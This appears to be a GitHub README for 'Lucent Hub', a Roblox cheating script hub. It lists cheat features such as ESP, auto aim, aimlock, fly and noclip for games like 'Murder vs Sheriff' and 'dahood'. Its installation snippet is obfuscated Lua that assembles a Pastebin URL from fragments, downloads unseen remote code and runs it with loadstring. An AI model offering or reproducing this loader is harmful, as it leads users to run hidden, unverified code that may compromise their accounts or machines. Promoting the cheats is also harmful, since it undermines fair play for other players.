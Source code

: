 # Lucent Hub

# Supported Games

| Game Name          | Description                       | Script Features                    | Status   |
|--------------------|-----------------------------------|------------------------------------|----------|
| Murder vs Sheriff  |____     [██████████] 100%         | Hitbox enhancement, ESP, Auto aim  | Stable   |
| 99 Nights in the Forest |    [█---------] 15%          |  coming soon...                      | almost   |
| dahood             |         [█████----] 60%           | Fly, Noclip, Aimlock, Telepo       | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |

# Installation
```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
